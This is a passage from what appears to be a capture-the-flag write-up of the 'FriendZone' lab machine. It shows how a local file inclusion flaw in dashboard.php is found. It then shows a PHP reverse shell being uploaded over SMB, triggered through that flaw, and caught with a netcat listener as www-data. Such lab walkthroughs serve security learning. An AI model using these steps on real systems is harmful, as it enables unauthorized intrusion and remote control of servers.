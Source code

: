 we can find a login form on "https://administrator1.friendzone.red/login.php".
![placeholder](https://inar1.github.io/public/images/2019-09-05/2019-09-04-23-13-14.png)

we can also find an interesting php script "timestamp.php".
![placeholder](https://inar1.github.io/public/images/2019-09-05/2019-09-04-23-13-35.png)

Next, try to access with the previous credential.<br>
It says go to "dashboard.php".
![placeholder](https://inar1.github.io/public/images/2019-09-05/2019-09-04-23-15-32.png)

We found a shaddy website with php.
![placeholder](https://inar1.github.io/public/images/2019-09-05/2019-09-04-23-16-34.png)

Then, go to "https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=timestamp" as he says.
![placeholder](https://inar1.github.io/public/images/2019-09-05/2019-09-04-23-17-32.png)

We can see a paramter "timestamp".<br>
Try to replace the parameter with "login".
![placeholder](https://inar1.github.io/public/images/2019-09-05/2019-09-04-23-19-06.png)

The webapp showed the output of "login.php" (If we put wrong password it says "Wrong!").<br>
This means, we found possible LFI.<br>
<br>
Since we already know that the path for the "File" share is "/etc/Files".
At this time, we need some assuming the path for "Development" share to be "/etc/Development".<br>
Then, try to upload the <a href="http://pentestmonkey.net/tools/web-shells/php-reverse-shell">reverse shell</a> script and access with the LFI vulnerability.<br>
Upload reverse shell:
{% highlihght shell %}
smb: \> put php-reverse-shell.php
putting file php-reverse-shell.php as \php-reverse-shell.php (50.1 kb/s) (average 50.1 kb/s)
smb: \> dir
  .                                   D        0  Wed Sep  4 22:08:54 2019
  ..                                  D        0  Wed Jan 23 23:51:02 2019
  php-reverse-shell.php               A     5492  Wed Sep  4 22:08:54 2019

		9221460 blocks of size 1024. 6369608 blocks available
{% endhighlight %}

Access to the reverse shell with browser after launching netcat listener:
{% highlight shell %}
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/php-reverse-shell
{% endhighlight %}

Now we got a reverse shell.
{% highlight shell %}
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.123] 44662
Linux FriendZone 4.15.0-36-generic #39-Ubuntu SMP Mon Sep 24 16:19:09 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 22:13:04 up  1:08,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
{% endhighlight %}
